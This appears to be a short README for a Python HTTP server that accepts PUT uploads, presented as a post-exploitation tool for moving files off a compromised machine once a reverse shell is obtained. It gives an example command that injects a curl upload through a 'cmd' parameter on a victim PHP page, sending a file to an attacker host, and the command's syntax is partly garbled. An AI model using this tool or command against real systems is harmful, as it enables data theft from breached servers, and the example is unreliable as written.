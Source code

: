 # SimpleHTTPServer_PUT
Pythons Module for Simple HTTP Server with *PUT*. 
</br>This is useful for exfiltration of data once you have access (rev shell) to a machine

</br> Useful for exfiltrating files from a compromised server.
</br> Once you have a reverse shell you can send files to the attacker computer. You can do this with curl and upload file to the HTTP server on kali;
Default SimpleHTTPServer in Python does not allow PUT request. Using this server that accepts PUT requests you can upload files with curl;

</br> **Example**
root@kali:# curl https://victim.php?cmd=curl+http://attacker+--upload-files+flat.txt
